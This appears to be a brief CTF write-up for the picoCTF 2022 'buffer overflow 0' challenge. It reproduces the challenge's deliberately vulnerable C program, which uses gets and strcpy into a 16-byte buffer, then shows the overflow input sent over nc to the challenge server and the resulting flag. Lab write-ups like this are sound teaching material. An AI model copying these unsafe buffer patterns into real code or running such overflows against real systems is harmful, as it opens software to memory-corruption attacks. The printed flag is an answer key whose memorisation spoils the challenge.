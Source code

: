 # picoCTF 2022

> Darshan Patel

## Overview

| Tables | Description |
| ------ | ----------- |
| Category | Binary Exploitation |
| Challenge Name | buffer overflow 0 |
| Points | 100 |

## Description

Smash the stack. Let's start off simple, can you overflow the correct buffer?

#### Hints

- How can you trigger the flag to print?
- If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.
- Run man gets and read the BUGS section. How many characters can the program really read?

## Approach

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}

```

As mentioned in description, Put the values above the bufferspace. It'll overflows the flag.

```bash
nc saturn.picoctf.net 53935

Input: AAAAAAAAAAAAAAAAAAAA
```

## Flag

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_a065d5d9}
```
